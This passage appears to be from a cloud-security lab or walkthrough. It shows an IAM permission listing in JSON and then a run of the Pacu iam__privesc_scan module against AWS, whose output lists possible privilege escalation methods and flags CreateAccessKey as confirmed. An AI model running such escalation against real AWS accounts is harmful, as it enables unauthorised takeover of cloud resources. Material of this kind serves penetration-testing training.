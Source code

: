         ]
      },
      "iam:getpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listattachedrolepolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:listpolicyversions": {
        "Resources": [
          "*"
        ]
      }
    },
    "Deny": {}
  }
}
```

### Using Pacu to Privilege Escalate###

Pacu has a very useful module called ```iam__privesc_scan```
Let us run it to see if there are available methods for us to escalate our privilege.

Pacu (secondary:imported-cloudformation2) > ==run iam__privesc_scan==
  Running module iam__privesc_scan...
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan]   POTENTIAL: AddUserToGroup
[iam__privesc_scan]   POTENTIAL: AttachGroupPolicy
[iam__privesc_scan]   POTENTIAL: AttachRolePolicy
[iam__privesc_scan]   POTENTIAL: AttachUserPolicy
[iam__privesc_scan]   POTENTIAL: CodeStarCreateProjectFromTemplate
[iam__privesc_scan]   POTENTIAL: CodeStarCreateProjectThenAssociateTeamMember
[iam__privesc_scan]   CONFIRMED: CreateAccessKey
[iam__privesc_scan]   POTENTIAL: CreateEC2WithExistingIP
[iam__privesc_scan]   POTENTIAL: CreateLoginProfile
[iam__privesc_scan]   POTENTIAL: CreateNewPolicyVersion
[iam__privesc_scan]   POTENTIAL: EditExistingLambdaFunctionWithRole
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewCloudFormation
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewCodeStarProject
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewDataPipeline
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewGlueDevEndpoint
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewLambdaThenInvoke
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewLambdaThenInvokeCrossAccount
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewLambdaThenTriggerWithExistingDynamo
[iam__privesc_scan]   POTENTIAL: PassExistingRoleToNewLambdaThenTriggerWithNewDynamo
[iam__privesc_scan]   POTENTIAL: PutGroupPolicy
[iam__privesc_scan]   POTENTIAL: PutRolePolicy
[iam__privesc_scan]   POTENTIAL: PutUserPolicy
[iam__privesc_scan]   POTENTIAL: SetExistingDefaultPolicyVersion
[iam__privesc_scan]   POTENTIAL: UpdateExistingGlueDevEndpoint
[iam__privesc_scan]   POTENTIAL: UpdateLoginProfile
[iam__privesc_scan]   POTENTIAL: UpdateRolePolicyToAssumeIt
[iam__privesc_scan] Attempting confirmed privilege escalation methods...
```
